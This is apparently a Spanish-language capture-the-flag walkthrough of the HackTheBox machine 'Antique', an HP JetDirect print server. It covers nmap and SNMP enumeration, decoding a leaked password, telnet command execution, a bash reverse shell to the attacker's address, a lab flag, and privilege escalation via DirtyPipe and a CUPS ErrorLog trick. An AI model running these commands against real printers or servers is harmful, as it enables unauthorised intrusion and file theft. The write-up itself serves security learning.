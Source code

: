 # Maquina Antique

Maquina de resolución fácíl. Básicamente accedemos a un servidor de impresión HP JetDirect.

Las técnicas que veremos son:

* SNMP Enumeration
* Network Printer Abuse
* CUPS Administration Exploitation (ErrorLog)
* EXTRA -> (DirtyPipe) [CVE-2022-0847]"


## Enumeración

### Primera vez, 10/07/2022 - Guardamar de la Safor

Primero realizamos un escaneo rápido y silencioso.

<pre>
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
</pre>

Nos devuelve un único puerto, el 23.

<pre>
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 01:36 CEST
Initiating SYN Stealth Scan at 01:36
Scanning 10.10.11.107 [65535 ports]
Discovered open port 23/tcp on 10.10.11.107
Completed SYN Stealth Scan at 01:37, 12.76s elapsed (65535 total ports)
Nmap scan report for 10.10.11.107
Host is up, received user-set (0.053s latency).
Scanned at 2022-07-11 01:36:59 CEST for 13s
Not shown: 65533 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
           Raw packets sent: 66376 (2.921MB) | Rcvd: 65845 (2.634MB)

</pre>

Podemos realizar un escaneo exhaustivo al puerto 23. Tampoco nos dice mucho.

## Explotación

### Primer método.

Este método de explotación se ha etudiado viendo el vídeo de **S4vitar**:

[S4ViOnLive HackTheBox | Antique](https://www.youtube.com/watch?v=pvtergVU__4)  

En este vídeo se nos presenta la utilidad **snmpwalk** para enumeración snmp. Sabemos que es snmp porque es un servidor de impresión pero podriamos haberlo averiuado haciendo un escaneo de puertos UDP.

<pre>
nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
</pre>

Aqui veríamos que está abierto el puerto **UDP 161 - snmp**

<pre>
❯ nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 02:11 CEST
Initiating Ping Scan at 02:11
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 02:11, 0.08s elapsed (1 total hosts)
Initiating UDP Scan at 02:11
Scanning 10.10.11.107 [100 ports]
Discovered open port 161/udp on 10.10.11.107
Warning: 10.10.11.107 giving up on port because retransmission cap hit (2).
Completed UDP Scan at 02:11, 4.53s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).
Not shown: 89 open|filtered udp ports (no-response), 10 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.82 seconds
           Raw packets sent: 321 (18.892KB) | Rcvd: 12 (939B)
</pre>

La utilidad mostrada por **S4vitar** nos indica varoas coas, pero la mas importante es el número 1 del final. S o se le pasa número toma por defecto el 2 que es un nodo por encima de la ráiz:

<pre>
snmpwalk -c public -v2c 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
</pre>

Nos devuelve información del servidor de impresión. Si le ponemos un 1 nos dá información desde el inicio del árbol de la jerarquia.


<pre>
 snmpwalk -c public -v2c 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
</pre>

Vemo que devueve información sensible. Desde la palabra BITS se muestra un código que a priori parece la representación númerica de un código hexadecimal ya que inguno supera los 3 dígitos ni el número 255. Para decodificar la secuencia hexadecimal hacemos lo siguiente:


<pre>
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5# "2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5# 
</pre>

Podemos intuir que la password es **P@ssw0rd@123!!123**.
Tambien podríamos haberlo decodificado en alguna herramienta online.



Probamos a entrar con dicha password.

<pre>
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123q

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> 
</pre>

Llama la atención la opción de ejecutar comandos con **exec**.

Hacemos una primera prueba co whoami.

<pre>
> exec whoami
lp
> 
</pre>

Pues vamos a por una consola. Nos ponemos a la escucha por el puerto 443 y enviamos el comando **bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"**

<pre>
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.107] 53052
bash: cannot set terminal process group (1023): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ 
</pre>

Y aqui ya podemos ver la primera flag, del user.

<pre>
lp@antique:~$ ls
ls
exploit
exploit.c
telnet.py
user.txt
lp@antique:~$ cat user.txt
cat user.txt
2c0e2895a73ddd77e512d7069a15d852
lp@antique:~$ 
</pre>

Podemos ahora hace un tratamiento de la consola:

<pre>
lp@antique:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
python3 -c 'import pty;pty.spawn("/bin/bash")'
</pre>


### Otro método.

Se puede buscar por internet "HP JetDirect obtain password"

Se pueden encontrar ṕaginas donde se comenta como obtenet la password con el comando 


<pre>
snmpget -v 1 -c public 192.168.2.46 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
</pre>

## Escalada de privilegios

### Metodo 1: 

Explotación de la vulnerabilidad dirtyPipe.

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit



### Metodo 2: CUPS

En la máquina estça abierto internamente el puerto 631 que expone una WEB de CUPS.
Se puede hacer accesible desde nuestra máquina utilizando **Chisel**.

Una vez en la Web hay una vulnerabilidad que nos permite ver la flag.

Podemos cambiar la ruta del fichero de log:

<pre>
cupsctl ErrorLog="/root/root.txt"
</pre>

Y en la web visualizar el LOG.

# Se ampliar

